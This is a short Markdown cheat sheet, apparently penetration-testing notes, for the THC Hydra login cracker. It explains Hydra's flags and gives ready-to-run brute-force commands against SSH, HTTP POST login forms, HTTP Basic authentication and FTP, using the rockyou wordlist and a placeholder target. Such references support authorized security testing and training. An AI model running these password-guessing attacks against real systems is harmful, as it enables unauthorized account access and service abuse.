 ```yaml
---
title: HYDRA
summary: A very fast and flexible login cracker.
description: A very fast and flexible login cracker.
---
```


**[https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)**

## HYDRA Base


 > 
 > **<font color=red>hydra -l </font>username <font color=red>-P</font> wordlist.txt \[TARGET_IP\] service**

## HYDRA Flags


 > 
 > **<font color=red>-V</font>**</br>
 > Verbose.
 > 
 > **<font color=red>-vV</font>**</br>
 > Very Verbose.

 > 
 > **<font color=red>-L</font> myUsersFile**</br>
 > Specify usernames file list.
 > 
 > **<font color=red>-l </font> myUser**</br>
 > Specify username.

 > 
 > **<font color=red>-P </font>myPassFile**</br>
 > Specify password file list.
 > 
 > **<font color=red>-p</font> myPass**</br>
 > Specify password.

 > 
 > **<font color=red>-s</font>**</br>
 > Specify port.
 > 
 > **<font color=red>-t</font> 4**</br>
 > Number of parallel connections per target.

## SSH


 > 
 > **<font color=red>hydra -L</font> myUsersFile <font color=red>-P</font> myPassFile \[TARGET_IP\]<font color=red> ssh</font>**</br>
 > Brute Force SSH.

## HTTP POST


 > 
 > **<font color=red>hydra -vV -L</font> myUsersFile.txt  <font color=red>-P</font> /usr/share/wordlists/rockyou.txt  \[TARGET_IP\] <font color=red>http-post-form ‘</font>/path/to/form.php<font color=red>:</font>username<font color=red>=^USER^&</font>password<font color=red>=^PASS^&</font>login=Login:<font color=red>F=</font>ChainNotOK<font color=red>’</font>**</br>
 > Brute Force HTTP POST form with valid username.

## HTTP Basic Access Auth


 > 
 > **<font color=red>hydra -vV -l </font>myUser <font color=red>-P</font> /usr/share/wordlists/rockyou.txt \[TARGET_IP\]<font color=red> http-get</font> /path/**</br>
 > Brute Force HTTP Basic Access Authentication.

## FTP


 > 
 > **<font color=red>hydra -vV -l </font>myUser <font color=red>-P </font>/usr/share/wordlists/rockyou.txt  \[TARGET_IP\] <font color=red>ftp</font>**</br>
 > Brute Force FTP Login.
